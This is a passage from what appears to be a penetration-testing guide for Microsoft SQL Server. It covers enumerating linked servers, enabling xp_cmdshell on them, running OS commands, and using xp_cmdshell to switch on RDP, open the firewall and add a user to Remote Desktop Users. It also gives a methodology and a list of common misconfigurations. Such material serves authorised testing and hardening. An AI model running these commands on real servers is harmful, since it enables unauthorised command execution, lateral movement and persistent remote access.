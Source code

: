 Linked servers allow a SQL Server to connect to other database servers, potentially extending your attack surface:

```sql
-- Identify linked servers
SELECT srvname, isremote FROM sysservers
GO

-- Execute commands on linked servers
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO

-- Enable xp_cmdshell on linked server
EXECUTE('sp_configure "show advanced options", 1; RECONFIGURE') AT [LINKED.SERVER]
EXECUTE('sp_configure "xp_cmdshell", 1; RECONFIGURE') AT [LINKED.SERVER]

-- Execute commands on linked server
EXECUTE('xp_cmdshell ''whoami''') AT [LINKED.SERVER]
```

### MSSQL Penetration Testing Methodology

1. **Discovery**: Identify MSSQL instances through port scanning
2. **Version enumeration**: Determine SQL Server version
3. **Authentication testing**: Test common credentials and authentication methods
4. **Privilege assessment**: Determine the privileges of authenticated users
5. **Configuration review**: Check for misconfigurations
6. **Data enumeration**: Explore accessible databases and data
7. **Command execution testing**: Test for xp\_cmdshell and other methods
8. **Linked server testing**: Identify and test linked servers
9. **Lateral movement**: Use MSSQL as a pivot point to access other systems

### Common Vulnerabilities

1. **Weak credentials**: Default or weak passwords
2. **Excessive privileges**: Users with unnecessary sysadmin role
3. **xp\_cmdshell enabled**: Allows command execution
4. **Unpatched instances**: Missing security updates
5. **Insecure configuration**: Improper service account privileges
6. **Linked server misconfigurations**: Overly permissive links between servers

### RDP Access Through MSSQL

If you've gained administrative access to a SQL Server, you might be able to enable RDP access:

```sql
-- Enable RDP through registry (requires sysadmin)
EXEC xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
GO

-- Allow RDP through firewall
EXEC xp_cmdshell 'netsh advfirewall firewall set rule group="remote desktop" new enable=Yes'
GO

-- Add user to Remote Desktop Users group
EXEC xp_cmdshell 'net localgroup "Remote Desktop Users" myuser /add'
GO
```
